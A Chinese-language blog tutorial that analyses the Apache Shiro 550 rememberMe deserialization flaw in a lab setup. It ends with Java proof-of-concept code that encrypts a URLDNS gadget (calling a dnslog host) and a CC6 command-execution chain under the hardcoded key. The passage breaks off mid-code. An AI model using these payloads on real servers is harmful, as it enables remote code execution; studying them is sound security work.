







# 什么是Shiro

Apache Shiro 是一个功能强大且易于使用的 Java 安全框架，为开发人员提供了直观而全面的身份验证、授权、加密和会话管理解决方案。

# Shiro550（CVE-2016-4437）

在Shiro中，当我们勾选remember me时会将我们的身份信息序列化并使用AES加密后设置为cookie，当我们下次请求时服务器会读取Cookie并对解密后的结果进行反序列化。在Shiro<=1.2.4里在源码中硬编码了一个默认密钥，因此当我们知道密钥后可以伪造任意数据，进而触发反序列化漏洞。之所以叫Shiro550是因为该漏洞是由Shiro项目里ID为550的issue曝光出来的。

## 环境搭建

这里我采用P神写的mini Shiro[漏洞环境](https://github.com/phith0n/JavaThings/tree/master/shirodemo)来进行配置

在IDEA中，首先新建项目-->从已有源代码中导入项目，然后选择shirodemo文件夹新建项目并配置pom依赖。此部分无需多言。

然后点击上方的运行-->编辑配置



接着选择新建tomcat服务器，并配置tomcat的相关选项，首先选择部署(Deployment)



这里如果选择新增一个工件(artifact)然后可以选择以war exploded的方式加载还是war包的方式加载

- war包就是你先将相关配置配置好打包成一个war包，将所有的编译后的代码、JSP文件、资源文件、库等封装在一个文件内。这种格式容易传输和部署到任何支持Java EE的Web服务器上。（这里我们可以用mvn package命令得到war包）

- war exploded的加载方式就是会在运行时经历一个自动编译的过程，相当于你运行时IDEA自动为你做了打包的过程，比较方便于开发调试，我们复现时选择war exploded的加载方式就可以。

然后在服务器选项卡配置端口，JRE等信息：



这里有个坑，最开始我采用Tomcat10来进行配置，结果报"java.lang.NoClassDefFoundError:javax/servlet/ServletContextListener"的异常，原来在Tomcat 9及以上采用了Jakarta EE而不是Java EE，并且Servlet API 从`javax.servlet`迁移到了`jakarta.servlet`。因此在配置环境时我们需要采用Tomcat 9以下的版本。

## 漏洞流程

在`org.apache.shiro.web.mgt.CookieRememberMeManager`类的`getRememberedSerializedIdentity()`方法中定义了假如用户开启了RememberMe机制后的处理逻辑。

```
protected byte[] getRememberedSerializedIdentity(SubjectContext subjectContext) {

    if (!WebUtils.isHttp(subjectContext)) {
        if (log.isDebugEnabled()) {
            String msg = "SubjectContext argument is not an HTTP-aware instance.  This is required to obtain a " +
                    "servlet request and response in order to retrieve the rememberMe cookie. Returning " +
                    "immediately and ignoring rememberMe operation.";
            log.debug(msg);
        }
        return null;
    }

    WebSubjectContext wsc = (WebSubjectContext) subjectContext;
    if (isIdentityRemoved(wsc)) {
        return null;
    }

    HttpServletRequest request = WebUtils.getHttpRequest(wsc);
    HttpServletResponse response = WebUtils.getHttpResponse(wsc);

    String base64 = getCookie().readValue(request, response);
    // Browsers do not always remove cookies immediately (SHIRO-183)
    // ignore cookies that are scheduled for removal
    if (Cookie.DELETED_COOKIE_VALUE.equals(base64)) return null;

    if (base64 != null) {
        base64 = ensurePadding(base64);
        if (log.isTraceEnabled()) {
            log.trace("Acquired Base64 encoded identity [" + base64 + "]");
        }
        byte[] decoded = Base64.decode(base64);
        if (log.isTraceEnabled()) {
            log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
        }
        return decoded;
    } else {
        //no cookie set - new site visitor?
        return null;
    }
}
```

可以看到流程其实就是获得cookie的值，然后进行base64解码，我们查看调用该函数的点，发现`org.apache.shiro.mgt.AbstractRememberMeManager`中的`getRememberedPrincipals()`调用了该方法

```java
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
  PrincipalCollection principals = null;
  try {
    byte[] bytes = getRememberedSerializedIdentity(subjectContext);
    //SHIRO-138 - only call convertBytesToPrincipals if bytes exist:
    if (bytes != null && bytes.length > 0) {
      principals = convertBytesToPrincipals(bytes, subjectContext);
    }
  } catch (RuntimeException re) {
    principals = onRememberedPrincipalFailure(re, subjectContext);
  }

  return principals;
}
```

内容其实也很简单，就是得到base64解码的结果后传参给`convertBytesToPrincipals()`，看下相关实现：

```java
protected PrincipalCollection convertBytesToPrincipals(byte[] bytes, SubjectContext subjectContext) {
  if (getCipherService() != null) {
    bytes = decrypt(bytes);
  }
  return deserialize(bytes);
}
```

发现只是将送来的bytes传参进`decrypt()`，继续往下跟：

```java
protected byte[] decrypt(byte[] encrypted) {
  byte[] serialized = encrypted;
  CipherService cipherService = getCipherService();
  if (cipherService != null) {
    ByteSource byteSource = cipherService.decrypt(encrypted, getDecryptionCipherKey());
    serialized = byteSource.getBytes();
  }
  return serialized;
}
```

发现看起来是将密文和一个密钥一起传参给了`cipherService.decrypt`

### 密钥

我们先看下密钥的来源：

跟了下发现`getDecryptionCipherKey()`其实是`AbstractRememberMeManager`类的getter函数（没错这个类符合我们之前前面刚学过的Bean），至于设置decryptionCipherKey的`setDecryptionCipherKey()`则只被`setCipherKey()`调用过

```java
public void setCipherKey(byte[] cipherKey) {
    //Since this method should only be used in symmetric ciphers
    //(where the enc and dec keys are the same), set it on both:
    setEncryptionCipherKey(cipherKey);
    setDecryptionCipherKey(cipherKey);
}
```

从该函数方法的实现中可以看得出其加密密钥和解密密钥是一样的，因此这估计是个对称加密。继续查看`setCipherKey()`的调用点。（记住这个构造方法，后面还会多次看到！）

```java
public AbstractRememberMeManager() {
    this.serializer = new DefaultSerializer<PrincipalCollection>();
    this.cipherService = new AesCipherService();
    setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
}
```

发现竟然是设置了一个默认密钥DEFAULT_CIPHER_KEY_BYTES！

```java
private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
```

### IV

知道默认密钥后，我们回到前面的

```java
protected byte[] decrypt(byte[] encrypted) {
  byte[] serialized = encrypted;
  CipherService cipherService = getCipherService();
  if (cipherService != null) {
    ByteSource byteSource = cipherService.decrypt(encrypted, getDecryptionCipherKey());
    serialized = byteSource.getBytes();
  }
  return serialized;
}
```

其实往上跟以下可以发现，其实这个cipherService的初始化是和我们之前设置密钥同时进行的，没错正是在上面的`AbstractRememberMeManager()`构造方法中：

```java
public AbstractRememberMeManager() {
    this.serializer = new DefaultSerializer<PrincipalCollection>();
    this.cipherService = new AesCipherService();
    setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
}
```

这里从名字便可以确认我们的解密方式是AES了，但是AES解密还需要知道加密模式、padding方式和IV，因此我们看下`AesCipherService()`的实现

```java
public class AesCipherService extends DefaultBlockCipherService {

    private static final String ALGORITHM_NAME = "AES";

    /**
     * Creates a new {@link CipherService} instance using the {@code AES} cipher algorithm with the following
     * important cipher default attributes:
     * <table>
     * <tr>
     * <th>Attribute</th>
     * <th>Value</th>
     * </tr>
     * <tr>
     * <td>{@link #setKeySize keySize}</td>
     * <td>{@code 128} bits</td>
     * </tr>
     * <tr>
     * <td>{@link #setBlockSize blockSize}</td>
     * <td>{@code 128} bits (required for {@code AES}</td>
     * </tr>
     * <tr>
     * <td>{@link #setMode mode}</td>
     * <td>{@link OperationMode#CBC CBC}<b>*</b></td>
     * </tr>
     * <tr>
     * <td>{@link #setPaddingScheme paddingScheme}</td>
     * <td>{@link PaddingScheme#PKCS5 PKCS5}</td>
     * </tr>
     * <tr>
     * <td>{@link #setInitializationVectorSize(int) initializationVectorSize}</td>
     * <td>{@code 128} bits</td>
     * </tr>
     * <tr>
     * <td>{@link #setGenerateInitializationVectors(boolean) generateInitializationVectors}</td>
     * <td>{@code true}<b>**</b></td>
     * </tr>
     * </table>
     * <p/>
     * <b>*</b> The {@link OperationMode#CBC CBC} operation mode is used instead of the JDK default {@code ECB} to
     * ensure strong encryption.  {@code ECB} should not be used in security-sensitive environments - see the
     * {@link DefaultBlockCipherService DefaultBlockCipherService} class JavaDoc's &quot;Operation Mode&quot; section
     * for more.
     * <p/>
     * <b>**</b>In conjunction with the default {@code CBC} operation mode, initialization vectors are generated by
     * default to ensure strong encryption.  See the {@link JcaCipherService JcaCipherService} class JavaDoc for more.
     */
    public AesCipherService() {
        super(ALGORITHM_NAME);
    }

}
```

这里从注释我们知道了加密模式是CBC，padding模式为PKCS5（当然你要一直往上跟也行，其实这里也能从注释看出initializationVectorSize为128）

返回看下`cipherService.decrypt()`的实现：

```java
public ByteSource decrypt(byte[] ciphertext, byte[] key) throws CryptoException {

        byte[] encrypted = ciphertext;

        //No IV, check if we need to read the IV from the stream:
        byte[] iv = null;

        if (isGenerateInitializationVectors(false)) {
            try {
                //We are generating IVs, so the ciphertext argument array is not actually 100% cipher text.  Instead, it
                //is:
                // - the first N bytes is the initialization vector, where N equals the value of the
                // 'initializationVectorSize' attribute.
                // - the remaining bytes in the method argument (arg.length - N) is the real cipher text.

                //So we need to chunk the method argument into its constituent parts to find the IV and then use
                //the IV to decrypt the real ciphertext:

                int ivSize = getInitializationVectorSize();
                int ivByteSize = ivSize / BITS_PER_BYTE;

                //now we know how large the iv is, so extract the iv bytes:
                iv = new byte[ivByteSize];
                System.arraycopy(ciphertext, 0, iv, 0, ivByteSize);

                //remaining data is the actual encrypted ciphertext.  Isolate it:
                int encryptedSize = ciphertext.length - ivByteSize;
                encrypted = new byte[encryptedSize];
                System.arraycopy(ciphertext, ivByteSize, encrypted, 0, encryptedSize);
            } catch (Exception e) {
                String msg = "Unable to correctly extract the Initialization Vector or ciphertext.";
                throw new CryptoException(msg, e);
            }
        }

        return decrypt(encrypted, key, iv);
    }
```

看下这里的核心逻辑，ivSize跟一下会发现是128（其实刚刚上面注释也有提到），ivByteSize则是128/8=16，然后看下剩下的逻辑，其实相当于对于我们传入decrypt的数据，会取前面16个字节作为IV，后面的数据才是真正需要解密的数据。

回到Shiro中，也就是相当于对于我们传入的数据其实IV和待解密的数据我们都是可控的！

### 反序列化

回到前面的`convertBytesToPrincipals()`：

```java
protected PrincipalCollection convertBytesToPrincipals(byte[] bytes, SubjectContext subjectContext) {
  if (getCipherService() != null) {
    bytes = decrypt(bytes);
  }
  return deserialize(bytes);
}
```

目前我们已知变量bytes为我们可控的，那关键就在于后面`deserialize()`

```java
protected PrincipalCollection deserialize(byte[] serializedIdentity) {
  return getSerializer().deserialize(serializedIdentity);
}
```

往上看其实getSerializer()得到的是AbstractRememberMeManager对象的serializer属性，而这个属性又是在前面其构造方法中定义的，没错又是他的构造方法！

```java
public AbstractRememberMeManager() {
    this.serializer = new DefaultSerializer<PrincipalCollection>();
    this.cipherService = new AesCipherService();
    setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
}
```

查看DefaultSerializer对象的`deserialize()`方法：

```java
public T deserialize(byte[] serialized) throws SerializationException {
    if (serialized == null) {
        String msg = "argument cannot be null.";
        throw new IllegalArgumentException(msg);
    }
    ByteArrayInputStream bais = new ByteArrayInputStream(serialized);
    BufferedInputStream bis = new BufferedInputStream(bais);
    try {
        ObjectInputStream ois = new ClassResolvingObjectInputStream(bis);
        @SuppressWarnings({"unchecked"})
        T deserialized = (T) ois.readObject();
        ois.close();
        return deserialized;
    } catch (Exception e) {
        String msg = "Unable to deserialze argument byte array.";
        throw new SerializationException(msg, e);
    }
}
```

可以看到区别仅仅是在读取输入流时没有用我们常规的ObjectInputStream而是用了ClassResolvingObjectInputStream（这点我们后面会再次提到），其他的基本上没区别，相当于直接对解密后的数据进行了反序列化。

所以从全流程来看其实Shiro550并不难，原因就是由于对解密后的数据进行了反序列化，而加解密的其他参数（密钥，IV等）又为入侵者所可控或知晓。

## 实操

我们先使用URLDNS链来验证这一漏洞：构造生成Base64的代码：

```java
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException, IOException, NoSuchFieldException, IllegalAccessException {
        System.out.println(tob64(urldns()));
    }

    private static byte[] urldns() throws IOException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> Hashmap = new HashMap<URL, Integer>();
        URL url = new URL("http://5254e6ee.dnslog.biz");
        Class<URL> urlClass = URL.class;
        Field hashCode = urlClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,10);
        Hashmap.put(url,1);
        hashCode.set(url,-1);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(Hashmap);
        oos.flush();
        return bos.toByteArray();
    }
    
    private static String tob64(byte[] scode) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException {
        byte[] keyBytes = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
        byte[] iv = new byte[16];
        new SecureRandom().nextBytes(iv);
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedData = cipher.doFinal(scode);
        byte[] concatenatedArray = new byte[iv.length + encryptedData.length];
        System.arraycopy(iv, 0, concatenatedArray, 0, iv.length);
        System.arraycopy(encryptedData, 0, concatenatedArray, iv.length, encryptedData.length);
        return Base64.getEncoder().encodeToString(concatenatedArray);
    }
}
```

得到：

```java
7JJYbbWC8s7FCIpN+UZi4LXzqWsmorCpupIPdHIBmgF6TZSHK7yWlLTUABOG5mjNJRU8SAYJMzAxaPxvpcVsbFZxCGFqPNeRowUI6ywkRL+AQVdrLFggLzHD2SnEh0oRRyueIOaXFoe882XAcDiltZytrQUnGwMP4WE9xERhuwL4Qnd+pAi+idcsLK/iEiUCSN2xj8FY0UR98gCAGDYzcAdOF6ghIYuLraG0urwVMo4Gjaq7jgdeBbQZgdsOrV464PdsnPE+Iy2mjo+Z+uCDpxRCg92uIgKBKnfx6e2jtzy3VjDLuAUJquOuZGWzIGPue7LN7tkudViI2Zj9T8182baLj28FX5B+onzxYEX7r95AE+RGZs3XqADSt1j+Z2ms6XRwi0m89AFY4Xo1K6nhTmPuYIYfHyml31VhqvPY6KI0nm4BrJyW/8kncT64JtYABdI1u+/0zxTEUh4XrUx3FJ5azhf8bD+dVmSIaVkwxuM=
```

然后在burp中发包：



此时DNSLOG平台即可接受到我们的DNS请求



## Shiro中的Commons Collections

显然上面的例子中我们只是验证了反序列化漏洞的存在，那么在目标环境配有CC的条件下，我们是否可以利用之前的CC链来实现命令执行或代码执行呢？我们将上面代码中的核心部分换成CC6的相关代码，试下以下POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException, IOException, NoSuchFieldException, IllegalAccessException {
        System.out.println(tob64(cc6()));
    }


    private static byte[] cc6() throws IOException, NoSuchFieldException, IllegalAccessException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                                new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazymap = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry mapentry = new TiedMapEntry(new HaspMap<>(), 'a');
        hashMap.put(mapentry,'b');
        Field mapfield = TiedMapEntry.class.getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(mapentry,lazymap);
        lazymap.remove('a');
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(lazymap);
        oos.flush();
        return bos.toByteArray();
    }

    private static String tob64(byte[] scode) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException {
        byte[] keyBytes = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
        byte[] iv = new byte[16];
        new SecureRandom().nextBytes(iv);
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedData = cipher.doFinal(scode);
        byte[] concatenatedArray = new byte[iv.length + encryptedData.length];
        System.arraycopy(iv, 0, concatenatedArray, 0, iv.length);
        System.arraycopy(encryptedData, 0, concatenatedArray, iv.length, encryptedData.length);
        return Base64.getEncoder().encodeToString(concatenatedArray);
